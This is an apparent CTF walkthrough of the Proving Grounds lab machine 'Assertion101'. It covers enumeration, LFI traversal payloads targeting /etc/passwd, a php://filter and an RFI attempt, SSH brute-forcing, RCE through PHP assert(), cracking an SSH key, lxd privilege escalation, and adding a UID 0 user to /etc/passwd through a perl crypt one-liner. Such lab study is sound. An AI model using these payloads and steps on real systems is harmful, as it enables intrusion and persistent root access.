


# Assertion101
**Date:** March 25th 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Intermediate

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 100 -r -x php,txt,html -w dir-med.txt`

```
/css                  (Status: 200) [Size: 2424]
/js                   (Status: 200) [Size: 2693]
/fonts                (Status: 200) [Size: 2950]
/gallery.php          (Status: 200) [Size: 17070]
/contact.php          (Status: 200) [Size: 11556]
/about.php            (Status: 200) [Size: 20735]
/pages                (Status: 200) [Size: 1958]
/img                  (Status: 200) [Size: 6720]
/schedule.php         (Status: 200) [Size: 23805]
/index.php            (Status: 200) [Size: 36592]
/blog.php             (Status: 200) [Size: 15274]
/Source               (Status: 200) [Size: 2542]
```

<br>

## Website Digging

Visiting the main page:


I don't see anything interesting in the page source code, and there isn't a robots.txt.

Clicking links on the main page doesn't actually take you anywhere but it does add a parameter in the URL if you click the links at the top: http://192.168.75.94/index.php?page=about

I try to manipulate that to see if we have LFI and it doesn't end up working:


I manually look through the directories that gobuster found and see that in the pages directory we can view the pages that the links at the top of the page should take us to:



Looking through them we find some potential usernames that I throw into a file to use later if needed:

```
stacy
becky
noah
evelyn
leroy
phil
ollie
```

Looking at /Source shows us:


I download each of these files and look through them but don't find anything I can use.

I run a searchsploit on all the packages listed, as well as Apache 2.4.29 and OpenSSH 7.6p1, and don't have any luck there either.

I run hydra for 1 minute on each user against the SSH port and that doesn't end up working.

I run a nikto against the website and don't get anything useful back.

Not having much else to go on I decide to look closer at the page parameter because it's the only thing that sticks out up until this point and I may be able to bypass the ../ filter somehow.

I try several different variations that can sometimes bypass basic filters:

```
/.././.././.././../etc/passwd
/..//..//..//../etc/passwd
../../../../etc/passwd/.
....//....//....//....//etc/passwd
```

And none of them work. I try just putting .. as the page and it turns out it catches even that so none of the above would have worked:


I try and just use /etc/passwd so there are no .. but that doesn't work either.

Throwing a php filter in there also does not work:

```
?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

No luck on RFI either:

```
?page=http://192.168.49.75/users.txt
```

I do a lot of searching around google for additional LFI methods to try here and finally come upon something that makes a whole lot of sense given the name of this CTF. It turns out the webpage is using the PHP assert() function likely on .. to return that "Not so easy brother!" message to us. Here is the link I found:

[**https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6**](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6)

And a quick screenshot explaining how to exploit the vulnerability:


Giving that a try worked:


I run an ls -al command see a directory called .todeletelater which definitely sounds interesting to me. Looking inside it we find an id_rsa key!


Seeing what users are on the system that we may be able to SSH over as:



It turns out the id_rsa is password protected so I use ssh2john and crack it:


<br>

## System Access

And given the password it's easy to guess which user to connect over as:


<br>

## System Enumeration

Grabbing our first local.txt flag:


Checking out `id`:

```
uid=1000(soz) gid=1000(soz) groups=1000(soz),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Well, we have lxd, let's see if we can use a malicious container to grab our root flag.

I transfer a container I already have built over to the machine and get it set up and running, then execute /bin/sh on the container. Then change over to /mnt/root/root and find the flag waiting for me:


This essentially mounted the root of the file system with recursion on in /mnt/root giving us access to all files on the system. We don't have a root shell on the system, but we can read and interact with everything as root inside the container since we specified the security.privileged=true option when running the initial lxc init command.

NOTE: While inside the container you can create files that will also be created outside the contianer in whatever directory you're in. You can also modify files inside the container and the files will be changed outside the container. This means you can do any number of things like copying your public key into the root users authorized_keys file, or just simply editing /etc/passwd and adding a user.

<br>

## Root

Not wanting to leave without getting a true root shell I decide to create a user in the /etc/passwd file.

First I take a look at /etc/shadow and see they're using sha512crypt ($6$) hashes. Then I use perl to create a hash for me with a password of password:

`perl -e 'print crypt("password","\$6\$saltsalt\$") . "\n"'`


Then I add a user named me to the /etc/passwd file with this hash and a UID of 0 so it logs in as root:


And then switch over to it with the `su` command:


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a website that was using **PHP assert()** and exploiting it giving us **RCE** on the webserver
- Using the RCE we have to obtain an **id_rsa** key stored on the webserver and using it to SSH over
- Our user was assigned to the **lxd group** which allowed us to use a malicious container to escalate over to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
